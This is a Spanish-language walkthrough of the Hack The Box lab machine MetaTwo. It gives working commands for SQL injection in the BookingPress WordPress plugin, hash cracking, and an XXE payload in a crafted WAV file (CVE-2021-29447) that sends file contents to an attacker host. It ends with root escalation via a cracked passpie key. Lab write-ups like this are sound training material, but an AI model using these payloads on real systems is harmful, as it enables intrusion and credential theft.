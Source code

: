 # 10.10.11.186 - MetaTwo
![MetaTwo](https://user-images.githubusercontent.com/96772264/221831294-a64f5b58-90a7-40e6-9763-e7013cf0f39d.png)

----------------------
## Part 1: Enumeracion

Puertos abiertos -> 21, 22, 80
```console
└─$ whatweb http://10.10.11.186             
http://10.10.11.186 [302 Found] HTTPServer[nginx/1.18.0], IP[10.10.11.186], RedirectLocation[http://metapress.htb/], Title[302 Found], nginx[1.18.0]
ERROR Opening: http://metapress.htb/ - no address for metapress.htb
```
Añadimos al /etc/hosts el dominio y repetimos el escaneo.
```console
└─$ whatweb http://metapress.htb
Cookies[PHPSESSID], HTTPServer[nginx/1.18.0], MetaGenerator[WordPress 5.6.2], PHP[8.0.24], 

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 'http://metapress.htb/FUZZ.php'
000000001:   301        0 L      0 W        0 Ch        "index"
000000463:   200        96 L     429 W      6931 Ch     "wp-login"
000017037:   405        0 L      6 W        42 Ch       "xmlrpc"
000046014:   302        0 L      0 W        0 Ch        "wp-signup" 

└─$ wfuzz -t 200 --hc=404,301 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 'http://metapress.htb/FUZZ/'
000000041:   302        0 L      0 W        0 Ch        "login"
000000050:   200        1033 L   3343 W     74090 Ch    "events"
000000112:   200        155 L    552 W      10342 Ch    "0"
000000114:   200        50 L     114 W      1763 Ch     "feed"
000000229:   200        0 L      0 W        0 Ch        "wp-content"
000000247:   302        0 L      0 W        0 Ch        "admin"
000000774:   403        7 L      9 W        153 Ch      "wp-includes"
000001107:   200        153 L    534 W      10326 Ch    "about-us"
000001143:   200        1033 L   3343 W     74090 Ch    "Events"
```
Nos encontramos los clasicos directorios de un wordpress.
La web es esta:
![metateoo1](https://user-images.githubusercontent.com/96772264/221831399-e3e84927-cd75-4bb9-a6b8-b1c8d779bbe5.PNG)

Hay abajo un panel de busqueda que tramita una petición tal que así:  ```/GET http://metapress.htb/?s=test```
De hacer fuzzing a las paginas ```http://metapress.htb/?s=FUZZ``` pero consigo siempe las mimas cuatro que no tienen nada interesante

Si hago fuzzing por el wp-content ```http://metapress.htb/wp-content/FUZZ/``` sale lo tipico, /about /events /feed /themes /plugins y /uploads 
que devuelve un 403 forbiden.

----------------------
## Part 2: Explotando el plugin de wordpress "bookingpress"

La pagina de events tramita una peticion POST a http://metapress.htb/wp-admin/admin-ajax.php con un montón de datos. 
En el codigo fuente de /events si buscamos por urls obtenemos:
```
└─$ curl -s http://metapress.htb/events/ | grep -oE '"http://(.*?)"'
# .../wp-content/plugins/bookingpress-appointment-booking/images/data-grid-empty-view-vector.webp
```
![metateoo2](https://user-images.githubusercontent.com/96772264/221831498-f9e45c9e-82ef-4bed-93f5-cec717c4023b.PNG)

Buscando como explotar esto di [con](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)
Primero hay que extraer el "nonce"
```console
└─$ curl -s http://metapress.htb/events/ | grep "nonce"
var postData = { action:'bookingpress_generate_spam_captcha', _wpnonce:'4d058944b8' };

└─$ curl -s 'http://metapress.htb/wp-admin/admin-ajax.php' \
-d $'action=bookingpress_front_get_category_services&_wpnonce=4d058944b8&category_id=33&total_service=1) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -' | jq
# informacion de version y demas
```
Ahora picar la base de datos con sqlmap (ya que lo intente manualmente y no se podia)
```console
└─$ sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --method POST --data  'action=bookingpress_front_get_category_services&_wpnonce=4d058944b8&category_id=33&total_service=1' -p total_service --dbs
[*] blog
[*] information_schema

└─$ sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --method POST --data  'action=bookingpress_front_get_category_services&_wpnonce=4d058944b8&category_id=33&total_service=1' -p total_service -D blog --tables
# wp-users

└─$ sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --method POST --data  'action=bookingpress_front_get_category_services&_wpnonce=4d058944b8&category_id=33&total_service=1' -p total_service -D blog -T wp_users --dump
# admin -> $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
# manager -> $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70

└─$ john -w=/usr/share/wordlists/rockyou.txt hashes
partylikearockstar (?) # manager
```
Solo podemos crackear la de manager con el jhon ```john -w=/usr/share/wordlists/rockyou.txt hashes```
Y nos da "partylikearockstar". Entramos a wp-admin (wp-login.php) con esas creds manager:partylikearockstar
![metateoo3](https://user-images.githubusercontent.com/96772264/221832200-ee1db10d-f8b9-48fc-82f5-e5ebb6caa706.PNG)

----------------------
## Part 3: Explotando wordpress (media upload)

Hay una seccion para subir archivos (media)
![metateoo4](https://user-images.githubusercontent.com/96772264/221832240-07c6b2d8-678f-4571-b432-f986b40f8116.PNG)
Buscando ```wordpress media upload vulnerability``` doy con el "WordPress XXE Vulnerability in Media Library – CVE-2021-29447"

Hay que crear un wav (archivo de audio en crudo, usado en grabaciones). Pero nos dan un payload ya hecho en binario con una inyeccion XXE dentro. 
```console
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.83/wtf.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```
Esto apunta a "wtf.dtd" que hay que crar con la ruta que deseamos ver.
```console
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.83/?p=%file;'>" >
```
El unico usuario que sacamos es "jnelson" Como el sitio es un nginx antes de probar otras rutas pillamos el "/etc/nginx/sites-enabled/default" 
simplemente cambiando la ruta en "wtf.dtd" . Pone "root /var/www/metapress.htb/blog;" es decir el wordpress esta en esa ruta.  

Ahora a "/var/www/metapress.htb/blog/wp-config.php" Y obtenemos:

MySQL -> database blog -> blog:635Aq@TdqrCwXFUZ  
FTP -> ftpext metapress.htb:9NYS_ii@FyL_p5M2NvJ  

```console
└─$ ftp metapress.htb
Name (metapress.htb:cucuxii): metapress.htb
Password: 9NYS_ii@FyL_p5M2NvJ
ftp> dir
drwxr-xr-x   5 metapress.htb metapress.htb     4096 Oct  5 14:12 blog
drwxr-xr-x   3 metapress.htb metapress.htb     4096 Oct  5 14:12 mailer
ftp> dir blog
# Todo el wordpress
ftp> cd mailer
ftp> dir
drwxr-xr-x   4 metapress.htb metapress.htb     4096 Oct  5 14:12 PHPMailer
-rw-r--r--   1 metapress.htb metapress.htb     1126 Jun 22  2022 send_email.php
ftp> get send_email.php
```

Ahi encontramos las creds de jnelson "jnelson@metapress.htb:Cb4_JmWM8zUZWMu@Ys"
Podemos entrar con ssh ```sshpass -p 'Cb4_JmWM8zUZWMu@Ys' ssh jnelson@metapress.htb```

----------------------
## Part 4: Escalando privilegios: "passpie"

Si enumeramos el sistema con mi [script](https://github.com/CUCUxii/Pentesting-tools/blob/main/lin_info_xii.sh) encontramos que:
- Archivos de jnelson -> en su carpeta /home hay muchos ".passpie" con posibles contraseñas  

Dentro de passpie:
```console
jnelson@meta2:~/.passpie$ ls -la
-r-xr-x--- 1 jnelson jnelson    3 Jun 26  2022 .config
-r-xr-x--- 1 jnelson jnelson 5243 Jun 26  2022 .keys # dos claves: privada y publica
dr-xr-x--- 2 jnelson jnelson 4096 Oct 25 12:52 ssh # carpeta con password de root convertida en un pgp
```

Copio la clave privada del archivo ".keys" en private.key
```console
└─$ gpg2john private.key > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
# blink182         (Passpie)

```console
jnelson@meta2:~$ touch pass
jnelson@meta2:~$ passpie export pass
Passphrase: blink182 
jnelson@meta2:~$ cat pass
# root: 'p7qfAZt4_A1xo_0x'
jnelson@meta2:~$ su root
Password:  p7qfAZt4_A1xo_0x
```

